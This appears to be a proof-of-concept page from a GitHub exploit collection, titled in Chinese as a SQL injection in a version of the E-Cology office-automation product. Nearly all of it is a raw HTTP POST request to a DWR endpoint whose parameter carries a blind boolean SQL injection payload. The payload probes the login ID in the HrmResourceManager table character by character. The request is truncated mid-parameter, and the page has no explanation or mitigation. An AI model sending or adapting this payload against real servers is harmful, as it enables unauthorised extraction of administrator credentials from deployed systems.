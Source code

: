 ## 某微 E-Cology 某版本 SQL注入漏洞
```
POST /dwr/call/plaincall/DocDwrUtil.ifNewsCheckOutByCurrentUser.dwr HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36
Content-Length: 191
Accept-Encoding: gzip
Connection: close
Content-Type: text/plain
 
callCount=1
page=
httpSessionId=
scriptSessionId=
c0-scriptName=DocDwrUtil
c0-methodName=ifNewsCheckOutByCurrentUser
c0-id=0
c0-param0=string:1 and ascii((select substring(loginid,1,1)from HrmResourceManager))=115
c0-param1=strin

```
![3a380d7bbc888fb3314bb6b512b4e7db](https://github.com/wy876/POC/assets/139549762/6d40d284-0894-4c18-89dc-5a978d4f5c79)

